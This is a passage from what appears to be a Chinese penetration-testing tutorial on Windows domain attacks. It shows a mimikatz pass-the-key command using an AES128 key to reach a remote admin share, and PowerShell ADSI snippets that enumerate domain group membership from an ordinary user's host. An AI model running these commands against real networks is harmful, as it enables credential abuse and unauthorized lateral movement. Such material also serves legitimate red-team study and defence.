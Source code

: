 如图![这里写图片描述](http://drops.javaweb.org/uploads/images/fc011d158db54c7dd5038f97378edd219d5e4534.jpg)

远程连接

```
dir \\WIN-8VVLRPIAJB0\c$

```

成功

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/328c0523a71d2500483d32239be219797b000177.jpg)

> 注：  
> dir要使用主机名 而不是ip，不然会提示用户名或密码错误

换用aes128测试：

```
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes128:8cce86e4b0630f07fcf5f2110068c421" 

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/d46fb75220c8a91099e4a2ff56d59f9e244f1988.jpg)![这里写图片描述](http://drops.javaweb.org/uploads/images/55bc1dd20aec3e3aa283d5b1070dc0b574422015.jpg)

成功

> 注：  
> 如果不更换密码，aes key可以一直被用来远程连接。

0x05 补充
=======

* * *

如果域控权限分配不严格，我们在域普通用户主机下通过wmi查询可以查到当前域内的用户组

### 1、查看Administrators组

powershell执行

```
$members = @($([ADSI]”WinNT://TEST/Administrators”).psbase.Invoke(“Members”))
$members | foreach { $_.GetType().InvokeMember(“ADspath”, ‘GetProperty’, $null, $_, $null) } 

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/c03cc5bab079feb80313340e5bcfb14b69c2202e.jpg)

### 2、查看Domain Users组

```
$members = @($([ADSI]”WinNT://TEST/Domain Users”).psbase.Invoke(“Members”))
$members | foreach { $_.GetType().InvokeMember(“ADspath”, ‘GetProperty’, $null, $_, $null) }

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/cae7dcd362508dc595a66c5c4518c4f115f80326.jpg)
